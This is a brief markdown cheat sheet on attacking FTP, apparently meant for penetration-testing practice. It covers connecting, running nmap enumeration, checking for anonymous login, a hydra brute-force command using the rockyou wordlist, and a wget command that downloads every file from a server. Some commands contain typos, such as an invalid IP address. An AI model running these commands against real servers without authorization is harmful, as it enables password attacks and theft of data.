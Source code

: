 # File Transfer Protocol) (FTP)

Used to Transfer Files From Server To The client and runs on Port 21.

* ***Connect to FTP***

```shell
ftp ip-address 
```
![scrren1](https://user-images.githubusercontent.com/92652606/145721149-9c9e8a94-b97d-4819-bed9-fd9ce33e2250.png)

```shell
nc -nv 10.10.2.1 21
telnet 10.10.12.1 21 
```
```shell
openssl s_client -connect 1127.0.0.1:21 -starttls ftp # if ftp runs with ssl/tls 

````


* ***Enumrating FTP*** 

```shell
nmap -script=ftp-anon-p 21 10.10.0.1

nmap -Pn -sC -sV -p21 192.168.1.11

```

<img width="634" alt="Screen Shot 2021-12-12 at 17 39 06" src="https://user-images.githubusercontent.com/92652606/145721160-d1509fec-6d63-4b4a-a970-c823b78687aa.png">

```
Checking if Anonymous Loging is enabled anonymous:anonymous
```

* ***Exploiting Ftp***

Using Brute-force Attack

```
hydra -t 4 -l usernmae -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.12 ftp
```
![scrren2](https://user-images.githubusercontent.com/92652606/145722136-c7554bdb-631a-4ed1-bcc7-9b0ab433d8e9.png)

* ***Download all files on FTP server***

```shell
wget -m --no-passive ftp://anonymous:anonymous@127.0.0.1

```



